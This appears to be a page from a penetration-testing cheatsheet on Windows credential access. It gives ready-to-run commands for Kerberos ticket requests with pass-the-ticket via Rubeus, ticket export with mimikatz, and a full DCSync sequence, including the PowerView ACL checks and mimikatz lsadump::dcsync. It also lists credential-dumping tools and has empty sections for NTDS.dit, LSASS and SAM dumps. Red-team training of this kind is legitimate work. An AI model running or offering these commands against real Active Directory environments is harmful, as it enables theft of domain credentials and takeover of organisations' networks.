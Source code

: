 ```yaml
---
layout: post
title: TA0006 Credentials Access
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-07
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Other tools](#Othertools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [DCSync attack](#DCSyncattack)
* [NTDS.dit dump](#NTDS.ditdump)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)

### <a name='Rubeus'></a>Rubeus 
```powershell
# compilation
```

### <a name='Othertools'></a>Other tools
- Mimikatz: [Cheatsheet]() / [Repository]() / [Binaries]()
- Pypykatz: [Cheatsheet]() / [Repository]()
- Impacket: [Cheatsheet](https://www.hackingarticles.in/abusing-kerberos-using-impacket/) / [Repository]()
- lsassy:  [Cheatsheet]() / [Repository](https://github.com/Hackndo/lsassy)
- lsass-shtinkering: [Repository](https://github.com/deepinstinct/Lsass-Shtinkering)
- masky: [Repository](https://github.com/Z4kSec/Masky)
- donpapi: [Repository](https://github.com/login-securite/DonPAPI)


## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

[Wiki Rubeus](https://github.com/GhostPack/Rubeus)

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='DCSyncattack'></a>DCSync attack

- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
# get the account's SID 
get-netuser $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select objectsid

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl $zdom_dn -ResolveGUIDs  -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# check the ACL permissions
Get-ObjectAcl -Identity $zdom_dn -DomainController $zdom_dc_fqdn -Domain $zdom_fqdn -ResolveGUIDs | ? {$_.ObjectSID -match "S-1-5-21-xxx"}

# run the DCsync
mimikatz.exe privilege:debug
lsadump::dcsync /dc:$zdom_dc /domain:$zdom_fqdn /user:$zlat_user
```

## <a name='NTDS.ditdump'></a>NTDS.dit dump


## <a name='LSASS.exedump'></a>LSASS.exe dump

- [lsassy](https://github.com/Hackndo/lsassy)
- [lsass-shtinkering](https://github.com/deepinstinct/Lsass-Shtinkering)

## <a name='SAMdump'></a>SAM dump
